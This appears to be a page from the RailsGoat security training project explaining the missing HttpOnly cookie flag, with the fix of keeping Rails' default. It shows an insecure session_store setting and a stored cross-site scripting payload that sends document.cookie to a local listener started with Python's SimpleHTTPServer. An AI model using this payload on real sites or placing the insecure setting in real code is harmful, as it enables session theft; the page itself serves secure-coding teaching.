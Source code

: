 # Description

The HttpOnly flag prevents access to the document.cookie attribute of the DOM via JavaScript. Helpful for limiting the impact of Cross-Site Scripting as it relates to session theft.

# Bug

By default, Ruby on Rails protects its' cookies with the HttpOnly flag. However, it is possible to disable this security protection and is not recommended. You can disable this protection using the flag highlighted below. This is an insecure and unnecessary change.

```ruby
Railsgoat::Application.config.session_store :cookie_store, key: '_railsgoat_session', httponly: false
```

# Solution

### Lack of the HttpOnly Flag - ATTACK

Navigate to the sign-up page, sign up as a user, but in the first name field, enter:

```javascript
<script>document.location="http://localhost:8000/" + document.cookie </script>
```

Additionally, fire up Python's SimpleHTTPServer module using the following command:

```bash
$ python -m SimpleHTTPServer
```

### Lack of the HttpOnly Flag - SOLUTION

Keep the default configuration "as-is" and do not make this change. If this exists in your code base, remove it.

# Hint

Can JavaScript interact with my session cookie?